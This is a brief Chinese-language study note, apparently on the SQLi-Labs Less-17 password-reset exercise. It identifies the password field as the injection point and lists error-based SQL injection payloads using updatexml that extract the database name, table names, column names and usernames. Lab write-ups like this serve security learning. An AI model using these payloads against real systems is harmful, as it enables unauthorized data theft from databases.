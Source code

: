 ```yaml
---
title: less17
url: https://www.yuque.com/u29002979/ep2zrx/ke7ss7lpyoyfocak
---
```


```bash
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";
```

`uname=1'`

> \[PASSWORD RESET]

提示密码重设置,
&#x20;**注入点是密码的位置** <a name="irTrU"></a>

# 报错注入

```bash
查询数据库表
passwd=admin' and updatexml(1,concat(0x7e,(select database()),0x7e),1)-- +
爆破数据表
passwd=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) -- +
爆破字段名
passwd=1' and updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1) -- +
爆破字段
passwd=1' and updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1) -- +
```
